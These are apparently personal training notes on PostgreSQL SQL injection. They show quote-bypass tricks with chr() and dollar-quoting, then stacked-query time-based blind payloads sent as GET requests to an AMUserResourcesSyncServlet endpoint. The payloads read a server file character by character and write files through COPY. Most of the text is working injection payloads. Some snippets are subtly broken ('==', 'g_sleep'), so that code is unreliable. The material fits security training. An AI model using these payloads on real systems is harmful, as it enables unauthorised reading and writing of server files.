 
## chr
chr the quote simbol won't work with functions like copy. Example below.
```sql
select chr(119) || chr(48) || chr(48) || chr(116) ;
```
## notmal quotes
```sql
select 'w00t';
```
## double dollar
```sql
select $$w00t$$;
copy * to $$\<path>\output.txt$$;
```
## tag 
```sql
select $TAG$w00t$TAG$;
```
## check if the PostgreSQL is super user
```sql
select case when (current_setting($$is_superuser$$))==$$on$$ then g_sleep(5) end;
```
## time base attack
we cannot directly read the data from the file in the server's response when we use stacked queries. Therefore, the request will once again use a time-based comparison logic to infer the data. If the comparison evaluates to true, the query will sleep for 10 seconds. Using this technique, we can extract the contents of any file.
```url
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```
```url
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+ 
```

## write on target system using sql
```sql
COPY (SELECT $$offsec$$) to $$c:\\offsec.txt$$;
```
```url
GET /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+ HTTP/1.0
```
